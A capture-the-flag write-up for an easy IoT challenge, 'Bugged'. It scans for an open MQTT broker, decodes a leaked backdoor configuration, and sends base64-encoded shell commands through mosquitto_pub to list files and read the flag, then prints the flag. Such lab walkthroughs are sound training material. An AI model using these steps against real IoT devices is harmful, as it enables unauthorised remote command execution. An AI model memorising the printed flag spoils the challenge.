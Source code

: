 # Bugged

## Challenge Information
- **Challenge Name**: Bugged
- **Category**: IoT Security
- **Difficulty Level**: Easy

## Analysis

First of all, run nmap on the ipaddress `nmap <IP_ADDRESS>`. But this did not give any open ports. So we have to move towards the scanning of all ports `nmap -p 1-65535 -T4 -Pn <IP_ADDRESS>` for aggressive scanning of all ports, which gave an open port `1883/tcp open mqtt`. MQTT is a standards-based protocol that's commonly used for data transmission between Internet of Things (IoT) devices and the cloud. It's designed for devices with limited network bandwidth or resource constraints, such as smart sensors and wearables.

Now we will be subscribing to the service to see the communication using the tool `mosquitto_sub`: `mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "#"`. Here we are using `#` to subscribe to all topics. As a result, we can see some communication like:
```
{"id":129618052497693049,"color":"GREEN","status":"ON"}
{"id":1909226905601607364,"in_use":true,"temperature":159.55472,"toast_time":130}
{"id":15739021675742454388,"temperature":24.405937}
{"id":7735145274395155749,"gain":54}
{"id":17520807554009645173,"temperature":23.309986}
{"id":7444800185129679608,"color":"GREEN","status":"ON"}
{"id":9483337689556477149,"yaxis":-163.79924,"xaxis":124.93912,"zoom":1.823662,"movement":false}
{"id":13497795867139887626,"in_use":false,"temperature":146.00859,"toast_time":303}
{"id":10731702524761977214,"gain":47}
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
{"id":11806201323585827923,"temperature":24.21324}
```

The suspicious thing here is the base64 string. Lets decode it using CyberChef, and it will give us:
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

Here we got:
- The Device ID: "id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d". This is a UUID representing a unique identifier for the IoT device.
- Registered Commands: "registered_commands":["HELP","CMD","SYS"]. The device recognizes the commands HELP, CMD, and SYS, likely for remote control or debugging purposes.
- Publish Topic: "pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub". The device uses this topic to publish data.
- Subscribe Topic: "sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub". The device listens to this topic for commands or instructions.

Now we will subscribe to the publish topic to see the device's outgoing messages: `mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"`. Simultaneously, run `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP"` in different terminal to send the message. From this, we will receive a base64 string in the terminal where we subscribed the publish topic `SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=`.

Decode this string and it will give:
```
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

So, we came to know the exact format for running the command. Encode the following into base64: `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}`, it will give an encoding `eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==`. Actually we are trying to execute `ls` command.

Again send this as a message to the terminal: `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="`. This time, we will receive a base64 encoding `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9`. Decode this and it will give `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}`. It means that the file for the flag is present in the same directory.

Hence, we will modify the command again get the response on the subscribed terminal. Encode `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}` into base64 and send it in the terminal `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0="`. In the subscribed terminal, we will receive `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9`.

Decode it and it will reveal the flag `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}`.

## Flag
`flag{18d44fc0707ac8dc8be45bb83db54013}`
